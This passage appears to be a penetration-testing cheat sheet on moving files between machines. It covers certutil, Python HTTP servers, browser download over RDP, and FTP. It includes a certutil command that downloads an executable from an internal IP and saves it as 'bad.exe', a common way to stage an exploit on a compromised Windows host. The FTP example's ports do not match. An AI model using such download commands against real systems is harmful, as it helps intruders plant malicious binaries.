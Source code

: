 - [ ] Certutil (Client)

```powershell
$ certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

**Note :** The space in between `40564.exe` and `bad.exe` is what the file we be named after download, in this case it is `bad.exe`

- [ ] HTTP (Server)

```powershell
# Python2
$ python -m SimpleHTTPServer 80

# Python3
$ python3 -m http.server 80
```

- [ ] Browser (Client)
	- If we have a python server hosting a file and we do have RDP on a client machine, we can navigate directly to the file by specifying the IP-ADDRESS of this server

- [ ] FTP

```powershell
# On Sender machine run this
$ python -m pyftpdlib 21

# On the receiver machine run this
ftp <SENDER-IP-ADDRESS> 2121
```

**Note :** The receiver can either be a Windows or Linux client

